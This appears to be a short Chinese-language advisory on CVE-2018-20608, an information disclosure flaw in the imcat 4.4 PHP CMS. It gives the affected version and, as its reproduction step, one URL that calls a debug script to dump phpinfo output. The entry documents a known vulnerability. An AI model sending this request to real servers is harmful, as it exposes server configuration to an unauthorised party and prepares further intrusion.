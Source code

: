 # （CVE-2018-20608）Imcat 4.4 敏感信息泄露

> 原文：[http://book.iwonder.run/0day/Imcat/CVE-2018-20608.html](http://book.iwonder.run/0day/Imcat/CVE-2018-20608.html)

## 一、漏洞简介

imcat 是一套基于 PHP 的开源建站系统。 imcat 4.4 版本中存在安全漏洞。远程攻击者可借助 root/tools/adbug/binfo.php?phpinfo1 URI 利用该漏洞获取信息。

## 二、漏洞影响

imcat 4.4

## 三、复现过程

```
http://www.0-sec.org/root/tools/adbug/binfo.php?phpinfo1 
```

![image](img/5c6aea70f0698dcb4700bad0311034ad.png)

## 参考链接

> [https://github.com/AvaterXXX/CVEs/blob/master/imcat.md](https://github.com/AvaterXXX/CVEs/blob/master/imcat.md)

